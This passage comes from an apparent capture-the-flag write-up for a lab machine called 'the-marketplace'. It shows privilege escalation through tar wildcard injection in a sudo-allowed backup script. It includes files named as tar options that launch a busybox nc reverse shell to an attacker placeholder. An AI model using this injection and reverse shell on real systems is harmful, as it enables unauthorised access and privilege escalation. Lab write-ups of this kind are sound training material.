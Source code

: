 ## Privilege Escalation michael
I continued by running `sudo -l` and got the following output:
```bash
jake@the-marketplace:~$ sudo -l
Matching Defaults entries for jake on the-marketplace:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on the-marketplace:
    (michael) NOPASSWD: /opt/backups/backup.sh
```

The script contained the following:
```bash
jake@the-marketplace:~$ cat /opt/backups/backup.sh 
  #!/bin/bash
  echo "Backing up files...";
  tar cf /opt/backups/backup.tar *
```

The `tar` command stood out to me because of the wildcard usage. After researching the command, I found this page on <a href="https://gtfobins.github.io/gtfobins/tar/#shell">GTFObins</a>. To exploit this, I created two files that tar would interpret as parameters with the following names:
```bash
jake@the-marketplace:~$ echo "file" > '--checkpoint=1'
jake@the-marketplace:~$ echo "file" > '--checkpoint-action=exec=busybox nc [attackerip] 9001 -e bash'
```

When I executed the script as Michael, I encountered the following error:
```bash
jake@the-marketplace:~$ sudo -u michael /opt/backups/backup.sh 
  Backing up files...
  tar: /opt/backups/backup.tar: Cannot open: Permission denied
  tar: Error is not recoverable: exiting now
```

I checked the permissions and found out that Michael couldn't access the `tar` file:
```bash
jake@the-marketplace:~$ ls -al /opt/backups/
  total 24
  drwxrwxrwt 2 root    root     4096 Aug 23  2020 .
  drwxr-xr-x 4 root    root     4096 Aug 23  2020 ..
  -rwxr-xr-x 1 michael michael    73 Aug 23  2020 backup.sh
  -rw-rw-r-- 1 jake    jake    10240 Aug 23  2020 backup.tar
```

After changing the permissions, I was able to execute the script and escalate my privileges to Michael:
```bash
jake@the-marketplace:~$ chmod 777 /opt/backups/backup.tar
jake@the-marketplace:~$ sudo -u michael /opt/backups/backup.sh
  Backing up files...

michael@the-marketplace:~$ id
  uid=1002(michael) gid=1002(michael) groups=1002(michael),999(docker)
```
